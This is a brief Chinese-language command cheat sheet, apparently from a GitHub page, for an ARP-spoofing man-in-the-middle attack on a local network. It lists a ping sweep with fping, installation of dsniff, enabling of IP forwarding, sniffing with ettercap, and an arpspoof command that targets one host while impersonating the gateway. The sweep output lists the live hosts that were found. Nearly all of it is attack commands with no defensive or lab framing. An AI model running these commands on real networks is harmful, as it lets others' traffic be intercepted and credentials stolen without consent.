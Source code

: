 * fping -g 192.168.1.6/24
* 先输入命令更新一下系统：
* apt-get update，接着输入命令下载安装arpspoof程序：
* apt-get install dsniff；然后查看是否下载成功输入命
* echo 1 > /proc/sys/net/ipv4/ip_forward kali 开启转发
* ettercap
     1. -Tq -i eth0 开启嗅探
     2. ettercap -G 客户端


* arpspoof -i eth0 -t 192.168.1.134 192.168.1.1


## 扫描局域网ip
192.168.1.1 is alive
192.168.1.15 is alive
192.168.1.25 is alive
192.168.1.14 is alive
192.168.1.18 is alive
192.168.1.37 is alive
192.168.1.24 is alive
192.168.1.23 is alive
192.168.1.32 is alive
192.168.1.87 is alive
192.168.1.87 : duplicate for [0], 64 bytes, 22.3 ms
192.168.1.91 is alive
192.168.1.91 : duplicate for [0], 64 bytes, 180 ms
192.168.1.115 is alive
192.168.1.134 is alive
192.168.1.73 is alive
192.168.1.73 : duplicate for [0], 64 bytes, 346 ms


